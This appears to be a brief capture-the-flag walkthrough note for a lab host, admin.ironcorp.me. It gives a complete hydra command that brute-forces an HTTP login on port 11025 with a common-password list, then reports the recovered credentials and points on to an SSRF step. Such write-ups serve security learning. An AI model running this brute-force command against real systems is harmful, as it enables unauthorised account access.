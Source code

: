 Guessing the user is admin use hydra with a dictionary with the 10000 most used passwords.

`hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/xato-net-10-million-passwords-10000.txt -s 11025 admin.ironcorp.me http-get`

![[Hydra-20240828150515276.webp]]

Username: `admin`
Password: `password123`

Browse to http://admin.ironcorp.me:11025 and log in.

![[Hydra-20240828150803712.webp]]

Ther's an area where you can make inquiries through a form.

**Next step:** [[SSRF Vulnerability]]

